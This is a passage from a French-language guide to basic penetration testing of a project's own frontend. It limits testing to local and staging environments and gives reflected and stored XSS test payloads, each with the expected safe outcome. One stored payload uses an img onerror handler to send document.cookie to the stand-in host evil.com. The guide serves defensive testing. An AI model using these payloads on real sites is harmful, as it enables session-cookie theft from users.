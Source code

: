 # Guide de Tests de Pénétration

Guide pratique pour effectuer des tests de pénétration basiques sur l'application frontend.

⚠️ **ATTENTION**: Ces tests ne doivent être effectués QUE sur vos propres environnements (dev/staging).

## Préparation

### Outils Nécessaires

```bash
# Navigateur avec DevTools (Chrome/Firefox)
# Burp Suite Community (optionnel)
# curl
# Node.js + pnpm
```

### Environnement de Test

**✅ Autorisé:**
- http://localhost:3001 (dev local)
- Environnement de staging dédié

**❌ Interdit:**
- Production (https://chanvre-vert.fr)
- Environnements clients

## Tests XSS (Cross-Site Scripting)

### Test 1: XSS Reflected

**Objectif:** Tenter d'injecter du JavaScript via les paramètres URL

**Procédure:**
```bash
# Tester injection dans query params
http://localhost:3001/search?q=<script>alert('XSS')</script>
http://localhost:3001/products?name=<img src=x onerror=alert(1)>
```

**Résultat attendu:**
- ✅ Le script ne doit PAS s'exécuter
- ✅ Le contenu doit être échappé ou sanitisé
- ✅ Devrait apparaître comme texte brut: `<script>alert('XSS')</script>`

### Test 2: XSS Stored (via RichTextRenderer)

**Objectif:** Tenter d'injecter du JavaScript dans le contenu HTML

**Procédure:**
1. En tant qu'admin, créer un produit
2. Injecter dans la description:
```html
<script>alert('XSS Stored')</script>
<p>Description normale</p>
<img src=x onerror="fetch('https://evil.com?cookie='+document.cookie)">
```
